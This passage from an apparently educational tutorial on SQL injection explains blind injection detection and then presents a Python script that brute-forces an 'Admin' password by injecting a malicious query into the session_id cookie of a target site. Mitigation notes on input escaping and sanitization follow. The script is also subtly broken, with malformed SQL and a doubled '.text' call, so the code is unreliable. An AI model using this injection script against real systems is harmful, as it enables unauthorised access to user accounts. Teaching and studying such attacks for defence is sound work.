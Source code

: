 In our application, the first query has returned "Welcome home" but the second when redirected our application for example to signup. This happen because first query returned True on ``1==1`` but the second one returned false on ``1==2``. This indicate that our system is vulnerable to **SQLIA**. and this way we find that the server is vulnerable to blind sql injection.

This way we can extract data from any single condition and extract data one-by-one.

Let's take for example if there is a table called **Users**, This table include the username and password of each user, and you want to bruteforce the password of a user called **Admin**. 

You can brute force the admin password from observing changes happening to the webpage.

the following script brute force **Admin** on the ``session_id`` cookies parameter

```python
import requests

malicious_query = "2132' AND SELECT * FROM Users Where user = 'Admin' and 'password' = 'PASS"
url = "https://vulnerablewebsite/validate"
passwords = list(open("dictionary.txt").read().splitlines())
# test all passwords 
for password in passwords :
    cookies = {
        "session_id" : malicious_query.replace("PASS",password)
    }
    response = requests.post(url,cookies = cookies).text
    if "Welcome Home" in response.text:
        print("Succesfully found password",password)
        break
```

## SQL Injection Attack Mitigation Techniques

Protection against sql injection attack must be crucial on all servers, and to do that, there is few techniques to detect when someone attempting to execute an SQLIA.

### User input escaping

This technique implement a layer of validation on the web application front-end, where the developer doesn't allow submittion from web-application if the user input ain't matched with a safe regex pattern. for example, a developer can use this regex ``^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$`` with email to accept only valide email addresses. It's effective as a new security layer on **Injection through user input**; It doesn't help a lot with the other type and can't really be of any help if the attacker sends instead an HTTP request to the server's **API** with a malicious code. But, I really recommend this implementation because in some cases, you don't know where or how your webserver can act strangely with this kind of validations.

### Implement sanitization technique


This technique implement a layer of security and correction on the web application backend, where in case an attacker sends a malicious SQL Injection through cookies or submittion or any method, the server will detect this attack with regex (by matching patterns with known attack signatures) and respond appropriately based on the situation.
